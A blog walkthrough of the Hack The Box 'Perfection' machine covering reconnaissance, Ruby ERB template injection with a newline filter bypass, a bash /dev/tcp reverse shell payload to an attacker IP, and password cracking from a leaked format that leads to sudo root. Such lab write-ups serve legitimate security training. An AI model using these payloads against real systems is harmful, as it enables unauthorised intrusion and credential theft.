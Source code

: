 ```yaml
---
title: "Perfection Walkthrough(Hack The Box)"
date: 2025-03-14
draft: false
description: "Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the `sudo` group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain `root` access."
tags: ["Easy", "Linux", "Hack The Box", "hacking","walkthrough", "web"]
 
---
```


## Reconnaissance && Enumeration  
- Nmap scan results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 15.030 days (since Tue Dec 31 22:06:01 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- I was hanging around the website to find anything interesting, I am not gonna lie the website is both basic and neat
![gif](https://media1.tenor.com/m/RKfVkcF5d38AAAAC/well-made-sungwon-cho.gif)
- After a while I foud this Weighted grade calculator interesting
![Pasted image 20250116004126.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116004126.png?raw=true)
- In the footer of the page it shows/exposes that the website powered by `WEBrick 1.7.0`. So I noted it down.
- After some bunch of research I learnt that WEBrick uses Ruby to run. If I can recall I think there is even a module in ruby named Webrick. I'll leave the details below
{{< details summary="View the attached Links" >}} [Link-1 ](https://docs.ruby-lang.org/en/2.4.0/WEBrick.html) <br> [Link-2](https://github.com/ruby/webrick) <br> [Link-3](https://en.wikipedia.org/wiki/WEBrick) {{< /details >}}

- Like in python SSTI are possible for Ruby and as this a calculator it gives us more clue to work on that. So I jumped the gun
![gun](https://media1.tenor.com/m/UrhCgLoVcAcAAAAC/just-jump-the-gun-harry-jowsey.gif)
- This article showcases the SSTI on a WEBrick made site, talk about being lucky, lol --> [Link here](https://trustedsec.com/blog/rubyerb-template-injection)
![lucky](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNjY3NjB3ZHAycjl5Nmg5cDk5NjVvMWR1bnJxNTZza3dvZWNoeHlkMiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/THfsqxdJ6K0MrTutIb/giphy.gif)
- This [Medium article](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68) helped me a lot with payloads for the ruby SSTI and while I was testing It, I couldn't get any valid results
![Pasted image 20250116005312.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005312.png?raw=true)
- Below contains the example payloads for Ruby. These are some of the payloads that I used for SSTI
```ruby
<%= system("whoami") %>  
<%= Dir.entries('/') %>  
<%= File.open('/example/arbitrary-file').read %>
```
## Exploitation
- Some payload worked after little tweaks, But blocked by the web page as `Malicious Input` anyway. Hey atleast we got something
![Pasted image 20250116005529.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005529.png?raw=true)
- No matter how I URL encode, it didn't even worked. Probably the site blocks the symbols in the payload hmm...
![thinking](https://media.giphy.com/media/kPtv3UIPrv36cjxqLs/giphy.gif?cid=790b7611ou1885fjp6ktw531ypmpolj0xnsuejgxhz89xpis&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- I learnt that URL encoded value of new-line`(%0a`) helps in bypassing SSTI validation So I used that before the payload as prefix and like a magic it worked
- The `whoami` doesn't return any output
![Pasted image 20250116010747.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010747.png?raw=true)
- I tried hitting my machine for a check, and I got the request 
![Pasted image 20250116010907.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010907.png?raw=true)
- Request: 
![Pasted image 20250116010943.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010943.png?raw=true)
- As everything works fine its time for us to brew the cursed reverse shell payload
![brewing](https://media1.tenor.com/m/6uyO5POa2TMAAAAC/creepy-creep.gif) 
```bash
%0a<%25%3d+system("bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.14.10/7001+<%261'")+%25>
```
- It worked and we are as user `susan` now
- Secured {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20250116011350.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116011350.png?raw=true)

## Privilege Escalation
- While enumerating I found two other folders wihin user `susan's` home directory 
![Pasted image 20250116015043.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015043.png?raw=true)
- `Migration` folder had sqlite database file so for a change I opened the file in the target system itself
- The database had only one table called `users` . Inside that table, password hashes for five users were included
![Pasted image 20250116015454.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015454.png?raw=true)
- The hashes were made from using `sha256` algorithm
![Pasted image 20250116015710.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015710.png?raw=true)
- I tried cracking the hashes using my tool [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously sha256_cracker), But it failed
![Pasted image 20250116020022.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020022.png?raw=true)
- Then, I started enumerating system further for privesc vectors and rather I found this `/var/mail`
- Inside `/var/mail/susan` the message reads 
```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
```
- As per the instructions I created a python script to make password list for user `susan`
```python
output_file = "susan_nasus_password.txt"

with open(output_file, "w") as file:
    for number in range(1, 1_000_000_001):
        file.write(f"susan_nasus_{number}\n")

print(f"File '{output_file}' has been successfully created.")
```
- This would be both easy and fast when using bash 
```bash
for ((i=1; i<=1000000000; i++)); do echo "susan_nasus_$i" >> "$output_file"
```
- With the new wordlists I fired up my tool again and got the password
![Pasted image 20250116020736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020736.png?raw=true)
- You can get my tool from here [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously known as sha256_cracker). More features will be added by the time of your visit
![mine](https://media1.tenor.com/m/CyLsZhMXHioAAAAC/mine-is-the-best-mariah-milano.gif)
- Using the password I logged in via SSH as user `susan`
- I really wasn't expecting this twist I was hoping for more steps, anyway I am glad. See this yourself lol
- User `susan` can run sudo without any password
![are-we-a-joke](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTRmZG9ienp5dW1qYW1xZTExYTdlejgyaW9wNjU3bXVmem9hZTU2cCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/9ppWJumH0DiZ6co7ee/giphy.gif)
![Pasted image 20250116021417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021417.png?raw=true)
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250116021446.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021446.png?raw=true)

{{< typeit >}} Anyway guys, this concludes it this was a fun box but not particularly easy as rated. I hope you liked this post and don't forget to share this post, Fun fact we have share links for almost every platform.. look below. Emp5r0R  signing off... {{< /typeit >}}

![bye](https://media1.tenor.com/m/S1xOjTOnwLgAAAAd/masters-of-the-universe-skeletor-mot-u.gif)
